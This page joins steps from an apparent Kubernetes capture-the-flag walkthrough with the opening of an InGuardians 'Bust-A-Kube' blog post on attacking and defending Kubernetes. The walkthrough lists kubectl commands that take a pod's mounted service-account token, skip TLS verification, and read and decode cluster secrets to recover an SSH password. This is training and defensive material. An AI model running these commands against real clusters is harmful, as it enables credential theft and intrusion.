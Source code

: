 2. pull secrets from the API server for this namespace (there's a service account mounted that can read kube-system)

   ```
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get secrets -n shellshock
   ```

3. we've found secrets, now decode them

   > first way requires manual base64 decode, second is a one-liner

   ```
    /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --request-timeout 5s  --server https://kubernetes.default.svc --insecure-skip-tls-verify get secret my-secret -o yaml -n shellshock 
   
    /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get secret my-secret -n shellshock -o 'go-template={{index .data "ssh_password"}}' | base64 -d; echo
   ```

4. find password for ssh server in flag

5. write password in local file to win (or just tell ControlPlane!) TODO(low): write test for this

   ```
   echo 'What kind of plane is it?' > /tmp/flag
   ```
   
   


###
###

Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1

##
#
https://www.inguardians.com/blog/attacking-and-defending-kubernetes-bust-a-kube-episode-1/
#
##

Blog, Kubernetes

Jay Beale created two tools used by hundreds of thousands of individuals, companies and governments, Bastille Linux and the Center for Internet Security’s first Linux/UNIX scoring tool. He has led training classes on Linux security at the Black Hat, CanSecWest, RSA, and IDG conferences, as well as in private corporate training, since 2000. As an author, series editor and speaker, Jay has contributed to nine books and two columns and given roughly one hundred public talks. He is a co-founder, COO and CTO of the information security consulting company InGuardians.
If you’ve read my past blog posts or watched my Linux Attack and Defense webinars, you’ll see that one of my favorite hobbies is attacking a single-person capture the flag (CTF) virtual machine, then finding a proactive defense that would break my attack path. The critical point: even if you didn’t know that your machine or application had vulnerabilities, you can break the exploits against them with hardening. In my  “Bust-a-Kube” series of blog posts, I’m going to do this with Kubernetes, the market-leading open-source container orchestration system.  If you enjoy this, watch out for talks that I’m doing with other InGuardians folks at Hushcon 2018, RSA 2019, and online.
